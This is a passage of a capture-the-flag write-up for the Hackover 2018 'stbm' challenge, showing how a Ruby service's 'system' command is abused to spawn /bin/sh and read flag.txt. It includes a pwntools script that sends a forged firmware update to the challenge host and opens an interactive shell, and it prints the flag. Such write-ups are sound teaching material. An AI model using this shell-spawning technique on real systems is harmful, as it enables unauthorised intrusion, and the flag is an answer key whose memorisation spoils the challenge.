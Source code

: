 Yeah! So let's read the flag:

```
> system ls
cant_bus.rb  flag.txt     stbm

> system cat flag.txt
(hang)
```

Wait, what? Well... we've done goofed! In this case we get to that line:

```
command.call(parameter)
```

which gets one parameter - hence it waits for input instead of reading the file.

We can quickly verify this:

```
> system ls
cant_bus.rb  flag.txt     stbm

> system ls ../
cant_bus.rb  flag.txt     stbm
```

But that's not exactly an issue, since we can drop `/bin/sh` and do anything we want from there:

```
> system '/bin/sh'
~ $ ^[[46;5Rls
ls
cant_bus.rb  flag.txt     stbm
~ $ ^[[46;5Rcat flag.txt
cat flag.txt
hackover18{54fda39cd95ed88a5446953dbdf36a5d}
~ $ ^[[46;5R
```

BTW, I have automated this a bit using Python and the great `pwntools` library:

```python
from pwn import *

r = remote('stbm.ctf.hackover.de', 1337)

r.send("switch_module FirmwareCommands\n")
r.send("update test context=Kernel checksum=555 password=lol\n")
r.send("system /bin/sh\n")
# ^-- since I'm lazy, just wait for "Checksum Invalid (...)"
#     before proceeding :-P
r.interactive()
```

**Flag:** `hackover18{54fda39cd95ed88a5446953dbdf36a5d}`

That was a pretty neat task, especially given I have no knowledge of Ruby whatsoever; I relied solely on the docs ;-)

Cheers!
